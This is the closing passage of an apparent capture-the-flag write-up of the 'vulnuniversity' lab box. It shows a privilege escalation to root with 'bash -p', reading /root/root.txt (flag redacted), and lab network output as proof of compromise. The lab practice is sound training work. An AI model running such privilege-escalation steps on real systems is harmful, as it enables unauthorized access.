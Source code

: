 This looked good now to see if it worked.

```bash
bash -p
whoami
```

```text
root
```

{{< figure src="/ox-hugo/vulnuniversity_root.png" caption="<span class=\"figure-number\">Figure 3: </span>Proof of root privilege" >}}

And that's root on vulnuniversity.
Now the flag was captured.

```text
cat /root/root.txt
[[ REDACTED ]]
```

And proof of root was taken.

{{< figure src="/ox-hugo/vulnuniversity_root_ip.png" caption="<span class=\"figure-number\">Figure 4: </span>Root whoami and ip addr" >}}

```text
$ whoami
root
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:af:8a:2e:17:05 brd ff:ff:ff:ff:ff:ff
    inet 10.10.192.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::af:8aff:fe2e:1705/64 scope link
       valid_lft forever preferred_lft forever
```

That's a full compromise.

---

Header image is [Gute Freunde (1904) by Hermann Kern](https://artvee.com/dl/gute-freunde-2)

This post first appearted on [Functional Security](https://funcsec.com).